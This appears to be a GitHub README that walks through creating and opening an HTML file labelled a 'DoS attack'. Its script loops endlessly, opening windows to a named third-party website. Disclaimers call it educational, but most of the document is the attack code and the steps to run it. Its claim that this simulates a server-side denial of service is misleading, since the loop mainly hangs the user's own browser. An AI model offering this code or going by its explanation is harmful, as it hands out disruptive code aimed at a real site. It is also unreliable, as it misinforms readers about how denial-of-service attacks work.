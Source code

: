 # Step-by-Step Guide: Using the DoS Attack HTML Code

**Disclaimer**: This guide is for educational purposes only. Unauthorized and malicious use of Denial of Service (DoS) attacks is illegal and unethical.

This guide explains how to use the provided HTML code to simulate a Denial of Service (DoS) attack. A DoS attack aims to overwhelm a target server or website, rendering it unavailable to legitimate users.

## Prerequisites
A web browser with JavaScript support (e.g., Chrome, Firefox, Safari)

## Steps

1. Access the HTML Code:

    Open a text editor or integrated development environment (IDE) to access the HTML code. You can also create a new HTML file using a simple text editor.

2. Copy the code:

   ```html
    <!DOCTYPE html>
    <html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>DoS Attack</title>

        <script>
            function dos(){
                window.open("https://www.urkdash.com/", "dos", "width=1000, height=1000", "_blank");
            }

            for(;;){
                dos();
            }
        </script>
    </head>
    <body>
    </body>
    </html>
   ```
3. Save the File:

    Save the file with a .html extension, such as dos_attack.html.

4. Open the HTML File:

    Double-click the saved HTML file to open it in a web browser. Alternatively, you can right-click the file and choose "Open with" to select a browser.

5. Observe the Effect:

    As the HTML file is opened in the browser, it will start executing the JavaScript code inside the `<script>` tag. This code will continuously open new browser windows targeting the URL `https://www.urkdash.com/`. This is a simulated DoS attack, which will consume system resources and potentially render the browser unresponsive.

6. Close the Browser Tabs:

    To stop the simulated attack, close the browser tabs that were opened by the script. You may need to forcefully close the browser if it becomes unresponsive.

## Warning

This guide and the provided code are for educational purposes only. Engaging in real Denial of Service (DoS) attacks is illegal and unethical. Always use your knowledge responsibly and respect the security and integrity of computer systems and networks.